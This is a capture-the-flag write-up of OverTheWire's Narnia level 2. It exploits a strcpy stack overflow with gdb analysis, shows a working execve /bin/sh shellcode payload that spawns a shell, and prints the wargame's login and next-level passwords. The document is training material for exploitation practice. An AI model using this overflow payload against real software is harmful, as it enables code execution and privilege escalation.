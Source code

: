 ```yaml
---
layout: post
title:  "Narnia Level 2"
date:   2015-10-10 12:52
categories: narnia wargame pwnable overthewire
author: Leander
---
```


This is a solution guide to the Narnia2 Level at [overthewire](http://overthewire.org/wargames/narnia/) This write-up was originally created on 28 February 2015.

<strong>Challenge Description:</strong> Narnia2 is another buffer overflow vulnerable program. This challenge builds on Narnia0 and Narnia1 where an attacker must determine the proper buffer overflow offset and place shellcode in a location that is known. This allows an attacker to execute arbitrary code.
<!--break-->

First connect to the lab
<ul><li>ssh narnia2@narnia.labs.overthewire.org</li>
<li>Enter the following as the password nairiepecu</li></ul>

Change directories to the narnia games folder ``` cd /narnia ```. Next, let's examine how we get the password for the next level ``` less narnia2.c ```.

{% highlight c linenos %}
int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
                exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
{% endhighlight %}

This challenge appears to revolve around a simple buffer overflow. Notice that
the strcpy will take whatever argument is in argv and copy it to the buffer. Also
that there is no bounds checking - as a result it is possible to overwrite the 
return address following printf.

First, let's figure out how large the buffer is that we need to overflow. We know
buf is 128 bytes, so let's setup that first.

<figure class="highlight"><pre><code class="language-text" data-lang="text">|----------------|
|    buf is      |
|    128 bytes   |
|----------------|
|    12 bytes    |
|   of garbage   |
|----------------|
|    return 0    |
|----------------|</code></pre></figure>

So lets test it out, but first lets find a good breakpoint in gdb. Startup narnia2 inside gdb with the following command: ```  gdb ./narnia2 ``` and then:

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) disass main
   0x080484b0 <+83>:	movl   $0x8048574,(%esp)
   0x080484b7 <+90>:	call   0x8048310 <printf@plt>
   0x080484bc <+95>:	mov    $0x0,%eax
   0x080484c1 <+100>:	leave  
   0x080484c2 <+101>:	ret    
End of assembler dump.</code></pre></figure>

Since we are attempting to target the last ret, lets set a breakpoint 
at the leave instruction with the following gdb command: ``` break *0x080484c1 ```

Now we are ready to experiment! Now run a string that is a total of 140 bytes.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x140'`
Starting program: /games/narnia/narnia2 `perl -e 'print "A"x140'`
Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xf7e3ba00 in __libc_start_main () from /lib32/libc.so.6</code></pre></figure>	

Okay, now that we know we crash let's verify that we can take control of the program.
We can test this by adding 4 known bytes to see if we crash at the address we have 
chosen.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x140 . "\xef\xbe\xad\xde"'`
Starting program: /games/narnia/narnia2 `perl -e 'print "A"x140 . "\xef\xbe\xad\xde"'`
Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()</code></pre></figure>

Now we know we can take control of the program! so now we have to pick a good address
that we want to return to. A good way to do this is to examine esp and subtract our
buffer length so see where our shellcode can start.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) x/40xw $esp-144
0xffffd5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd600:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd610:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd620:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd630:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd640:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea</code></pre></figure>

So now we know the earliest starting address is 0xffffd5c0. Next we should craft our exploit. The first step is to grab some shellcode from [shell storm](http://shell-storm.org/shellcode/files/shellcode-811.php). Next, let's craft our exploit together with the shellcode.

<figure class="highlight"><pre><code class="language-text" data-lang="text">`perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xec\xd5\xff\xff"'`</code></pre></figure>

Notice that I have added some padding, this is mainly to help my exploit so that I don't have to be as precise and it also helps since the environment variables change when I exit the debugger. Now, we can try out exploit, but first let's see what it looks like in the stack so that we can compare against our previous test.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xef\xbe\xad\xde"'`

Starting program: /games/narnia/narnia2 `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xef\xbe\xad\xde"'`

Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) x/40xw $esp-144
0xffffd5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x6850c031	0x68732f2f
0xffffd600:	0x69622f68	0x89e3896e	0xb0c289c1	0x3180cd0b
0xffffd610:	0x80cd40c0	0x42424242	0x42424242	0x42424242
0xffffd620:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd630:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd640:	0x42424242	0x42424242	0x42424242	0xdeadbeef
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea</code></pre></figure>

Notice that we now have shellcode that is interwoven between our "A"s and "B"s to assist 
with accounting for changes once we leave the debugger. So now we can pick a return address
somewhere inside the "A"s. I am going to select an address in the middle, 0xffffd5e0.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xe0\xd5\xff\xff"'`

Starting program: /games/narnia/narnia2 `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xe0\xd5\xff\xff"'`

process 23943 is executing new program: /bin/dash
$</code></pre></figure>

Great it worked! Now, let's try it outside the debugger.
	
<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia2@melinda:/narnia$ ./narnia2 `perl -e 'print "A"x56 . \
"\x31\xc0\x50\x68\x2f\x2f\x73" . \
"\x68\x68\x2f\x62\x69\x6e\x89" . \
"\xe3\x89\xc1\x89\xc2\xb0\x0b" . \
"\xcd\x80\x31\xc0\x40\xcd\x80" . \ 
"B"x56 . "\xe0\xd5\xff\xff"'`
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
$ </code></pre></figure>


BINGO, it worked and we didn't even have to worry about our address because of the padding! 
Level 3 password is ``` vaequeezee ```

